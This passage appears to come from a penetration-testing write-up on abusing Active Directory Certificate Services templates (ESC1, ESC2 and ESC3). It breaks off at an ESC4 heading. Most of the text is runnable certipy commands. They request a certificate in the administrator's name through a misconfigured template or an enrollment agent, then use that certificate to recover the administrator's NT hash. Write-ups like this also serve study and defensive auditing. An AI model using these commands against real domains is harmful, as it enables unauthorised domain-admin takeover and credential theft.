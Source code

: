##### ESC1

As you can see, the `CA` (Certificate Authority) is vulnerable to `ESC1`. To be able to exploit it you can recover the admin certificate:

```bash
certipy req -u $USER@$DOMAIN.local -p $PASSWORD -target $CA_SERVER.$DOMAIN.local -template ESC1 -ca $CA_NAME -upn administrator@$DOMAIN.local
```

Now, we should have a file called `administrator.pfx`. With this file, we can use it to recover the administrator `NT` hash:

```bash
certipy auth -pfx administrator.pfx -dc-ip $DC_IP
```

##### ESC2 /ESC3

With `ESC2` and `ESC3` are using the enrolment agent to request a certificate. As for `ESC1`, we use `certipy` to request a certificate:

```bash
certipy req -u $USER@$DOMAIN.local -p $PASSWORD -target $CA_SERVER.$DOMAIN.local -template ESC2 -ca $CA_NAME
```


```bash
certipy req -u $USER@$DOMAIN.local -p $PASSWORD -target $CA_SERVER.$DOMAIN.local -template User -ca $CA_NAME -on-behalf-of '$NETBIOS_NAME\administrator' -pfx $OUR_USER.pfx
```


Now that we have the admin certificate, we can use it to recover the `NT` hash:

```bash
certipy auth -pfx administrator.pfx -dc-ip $DC_IP
```

As you may have notice, we did this for the template `ESC2`, but we can run the following commands to exploit `ESC3-CRA` and `ESC3` templates:

```bash
certipy req $USER@$DOMAIN.local -p $PASSWORD -target $CA_SERVER.$DOMAIN.local -template ESC3-CRA -ca $CA_NAME
```

Or

```bash
certipy req $USER@$DOMAIN.local -p $PASSWORD -target $CA_SERVER.$DOMAIN.local -template ESC3 -ca $CA_NAME -on-behalf-of '$NETBIOS_NAME\administrator' -pfx $OUR_USER.pfx
```

And finally get the `NT` hash:

```bash
certipy auth -pfx administrator.pfx -username administrator -domain $DOMAIN.local -dc-ip $DC_IP
```

> Because the recovery of the `NT` hash is always the same command, I will not write this step anymore but you can check the `ESC1` and `ESC2/ESC3` to see how it is done.
{: .prompt-warning}
##### ESC4
